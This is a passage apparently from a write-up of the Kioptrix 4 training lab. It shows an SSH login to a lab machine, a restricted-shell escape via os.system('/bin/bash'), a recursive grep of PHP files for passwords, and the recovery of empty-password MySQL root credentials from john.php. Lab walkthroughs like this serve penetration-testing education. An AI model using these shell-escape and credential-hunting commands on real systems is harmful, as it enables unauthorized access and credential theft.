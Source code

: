 ```bash
ssh john@192.168.56.119
help
echo os.system('/bin/bash')
export TERM=xterm
cd /
find / -maxdepth 5 -name *.php -type f -exec grep -Hn password {} \; 2>/dev/null
```

![ssh](/assets/img/posts/kioptrix4/6.png)

So we changed our directory to "/var/www/john" to get a look over john.php. We found a mysql credentials with username is "root" and passowrd is "".

```bash
cd /var/www/john/
cat john.php
```

![john.php](/assets/img/posts/kioptrix4/7.png)
